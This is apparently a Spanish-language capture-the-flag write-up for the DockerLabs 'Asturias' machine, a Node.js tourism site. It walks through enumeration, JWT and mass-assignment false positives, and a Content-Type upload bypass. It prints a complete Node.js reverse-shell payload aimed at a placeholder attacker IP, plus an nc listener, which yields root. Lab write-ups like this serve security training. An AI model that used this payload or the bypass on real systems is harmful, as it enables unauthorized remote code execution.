







# Asturias DockerLabs (Intermediate)

# Contexto de la maquina
## Trayectoria Asturias

<figure><figcaption></figcaption></figure>

## Descripción

**Asturias** es una máquina Linux de dificultad **Intermediate** en DockerLabs que simula un portal de turismo de la región de Asturias construido sobre Node.js (Express). La cadena de compromiso es limpia y directa, aunque requiere una metodología cuidadosa para distinguir los vectores reales de los falsos positivos que la máquina plantea intencionalmente.

La enumeración web descubre un formulario de registro con una vulnerabilidad de **Mass Assignment**: el servidor acepta y procesa el campo `role` en el JSON de registro aunque no debería ser controlable por el usuario. Sin embargo, esta vía resulta ser un **falso positivo**: el rol de administrador se asigna momentáneamente pero no persiste. El vector real está en la API `/api/gallery`, que acepta la subida de archivos validando únicamente el `Content-Type` declarado. Subiendo un script Node.js (`shell.js`) con `Content-Type: image/png`, el servidor lo almacena en el directorio de uploads. Al acceder al endpoint `/api/gallery/<ID>/file`, el servidor de Node.js ejecuta el archivo como código JavaScript, lo que resulta en una **reverse shell** directa como `root`.

**Objetivo**

- Enumerar la aplicación web y sus endpoints de API.
- Identificar la vulnerabilidad de File Upload en la galería de fotos.
- Subir un script Node.js malicioso disfrazado de imagen mediante bypass de Content-Type.
- Obtener la reverse shell como `root` accediendo al endpoint de visualización del archivo.

**Tipo de máquina**

- Plataforma: DockerLabs
- Sistema operativo: Linux (Node.js / Express)
- Categoría principal: Web / File Upload
- Componentes involucrados:
    - Portal turístico Node.js en el puerto 3000.
    - JWT con campo `role` visible y modificable (falso positivo parcial).
    - Mass Assignment en el endpoint de registro (falso positivo).
    - Bypass de Content-Type en la API de subida de galería.
    - Ejecución de script Node.js como `root` vía endpoint `/api/gallery/<ID>/file`.
## Análisis de vulnerabilidades

<figure><figcaption></figcaption></figure>
<figure><figcaption></figcaption></figure>
<figure><figcaption></figcaption></figure>

## Instalación

Cuando obtenemos el `.zip` lo pasamos al entorno de trabajo y lo descomprimimos:

```shell
unzip asturias.zip
```

Montamos la máquina con el script de despliegue automático de DockerLabs:

```shell
bash auto_deploy.sh asturias.tar
```

Respuesta:

```
Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Cuando terminemos le damos a `Ctrl+C` para eliminar el contenedor y no dejar archivos residuales.
# Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Respuesta:

```
Starting Nmap 7.991 ( https://nmap.org ) at 2026-10-21 19:48 +0200
Nmap scan report for 172.17.0.2
Host is up (0.000034s latency).

PORT     STATE SERVICE VERSION
3000/tcp open  ppp?

Nmap done: 1 IP address (1 host up) scanned in 11.55 seconds
```

Solo hay un puerto abierto: el **3000**. Nmap no identifica el servicio exacto, lo que es habitual con aplicaciones Node.js que no responden a los fingerprints estándar. Accedemos directamente por navegador para ver qué hay:

```
URL = http://<IP>:3000/
```

Respuesta:

<figure><figcaption></figcaption></figure>

Efectivamente hay una aplicación web corriendo. Es un portal de turismo de Asturias. Pasamos a enumerar sus rutas y endpoints.
# Enumeración web

<figure><figcaption></figcaption></figure>

## Fuzzing de directorios y páginas

```bash
gobuster dir -u http://<IP>:3000/ -w <WORDLIST> -x html,txt,php -t 100 -k -r --exclude-length 6327
```

El flag `--exclude-length 6327` filtra las respuestas del mismo tamaño que la página de inicio por defecto, lo que reduce el ruido eliminando falsos positivos de la wordlist.

Respuesta:

```
login.html           (Status: 200)
admin.html           (Status: 200)
tour.html            (Status: 200)
tours.html           (Status: 200)
dashboard.html       (Status: 200)
galeria.html         (Status: 200)
registro.html        (Status: 200)
```

Aparece un `admin.html`, lo que nos indica que hay un panel de administración. Exploramos las funcionalidades de la aplicación: nos registramos, iniciamos sesión y analizamos el token de sesión obtenido.
## Análisis del token JWT

Al registrarnos, el servidor nos devuelve un **JWT**:

<figure><figcaption></figcaption></figure>

Decodificamos el payload (la segunda parte del JWT):

<figure><figcaption></figcaption></figure>

El payload contiene un campo `role` con el valor `user`. Intentamos dos vías para obtener rol de administrador:

**Vía 1 — Falsificar el JWT con algoritmo `none`:** modificamos el payload cambiando `role: user` a `role: admin` y eliminamos la firma. El servidor rechaza el token sin firma.

**Vía 2 — Mass Assignment en el registro:** al interceptar la petición de registro con BurpSuite e inyectar `"role": "admin"` en el cuerpo JSON, obtenemos acceso momentáneo al panel de administrador, pero al cerrar sesión y volver a iniciarla el rol vuelve a `user`. **Falso positivo:** la asignación no persiste.
## Fuzzing de endpoints de API

<figure><figcaption></figcaption></figure>

Dado que el panel de administrador no es accesible de forma persistente, enumeramos los endpoints de la API para descubrir otras superficies de ataque:

```bash
gobuster dir -u http://172.17.0.2:3000/api -w <WORDLIST> -t 100 -k -r
```

Respuesta:

```
gallery              (Status: 200)
admin                (Status: 401)
tours                (Status: 200)
destinations         (Status: 200)
bookings             (Status: 401)
```

El endpoint `/api/gallery` devuelve `200 OK` sin autenticación. Lo consultamos:

```bash
curl -s -X GET http://172.17.0.2:3000/api/gallery | jq .
```

Respuesta (extracto):

```json
{
  "photos": [
    {
      "id": 3,
      "filename": "uploads/gallery/1792942637086-22e15d41791a.jpg",
      "caption": "Foto sin filtros, así de bonito es en la vida real",
      "destination_slug": "aviles",
      "user_name": "Javier Álvarez"
    }
  ]
}
```

El campo `filename` muestra que los archivos se almacenan en `uploads/gallery/`. Comprobamos que son accesibles directamente por URL y se cargan como imágenes estáticas. Además, al explorar la aplicación con sesión iniciada, encontramos un formulario de subida de fotos para la galería.
# Escalate user root

<figure><figcaption></figcaption></figure>

## Creación del payload Node.js malicioso

El servidor está construido en Node.js. Si podemos subir un archivo `.js` y el servidor lo ejecuta al servirlo (en lugar de transmitirlo como dato estático), tenemos RCE. Creamos una reverse shell usando el módulo nativo `net` de Node.js y `child_process`, que están disponibles sin necesidad de instalar nada:

> shell.js

```js
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("bash", []);
    var client = new net.Socket();
    client.connect(<PORT_ATTACKER>, "<IP_ATTACKER>", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/;
})();
```

El payload usa una **IIFE** (función autoejecutable) que al ser evaluada por Node.js abre una conexión TCP hacia nuestra máquina y redirige stdin/stdout/stderr a esa conexión, creando una shell interactiva.
## Bypass del filtro de tipo de archivo

El formulario de galería rechaza el archivo si detecta que no es una imagen. El servidor valida únicamente el header `Content-Type` de la petición multipart, sin analizar el contenido real del archivo. Interceptamos la subida de una imagen legítima con BurpSuite y modificamos:

- El nombre del archivo: de `foto.jpg` a `shell.js`
- El `Content-Type` del archivo: de `image/jpeg` a `image/png`
- El contenido del body: reemplazamos los bytes de la imagen por el contenido de `shell.js`

<figure><figcaption></figcaption></figure>

El servidor acepta el archivo. La respuesta incluye el `id` asignado al archivo en la base de datos: en nuestro caso es el `22`.
## Obtención de la reverse shell

Al analizar cómo la aplicación sirve los archivos de galería, descubrimos el patrón del endpoint de visualización:

```
http://<IP>:3000/api/gallery/<ID>/file
```

En lugar de transmitir el archivo como datos binarios estáticos (que sería el comportamiento seguro), el servidor Node.js ejecuta o importa el archivo como módulo al procesarlo. Esto significa que al acceder a la URL de nuestro archivo `.js`, Node.js lo evalúa y lanza el código de la reverse shell.

Nos ponemos a la escucha antes de acceder:

```bash
nc -lvnp <PORT>
```

Accedemos al endpoint con el ID de nuestro archivo:

```
URL = http://<IP>:3000/api/gallery/22/file
```

Si volvemos donde tenemos la escucha:

```
Listening on 0.0.0.0 7777
Connection received on 172.17.0.2 45732
whoami
root
```

El código JavaScript se ejecuta en el contexto del servidor Node.js, que corre como `root`. Tenemos shell directamente como `root` y la máquina está completamente comprometida.

